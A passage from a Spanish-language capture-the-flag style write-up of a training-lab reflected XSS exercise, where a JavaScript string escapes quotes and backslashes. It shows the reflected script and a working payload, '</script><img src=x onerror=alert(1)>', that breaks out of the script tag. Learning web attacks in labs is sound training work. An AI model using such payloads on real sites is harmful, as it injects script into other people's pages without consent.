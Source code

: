 Entonces para ejecutar el alert realizamos cualquiera de las conbinaciones de teclas que nos recomiendan. **(ALT+SHIFT+X)**

![](img38.png)

## 13. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

URL

```
https://ac381fa71fb08026809a014b003200b6.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa'; 
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Entonces, elaboramos un payload para salir de la etiqueta **<script>** y ejecutar un payload xss.

```
</script><img src=x onerror=alert(1)>
```

![](img39.png)
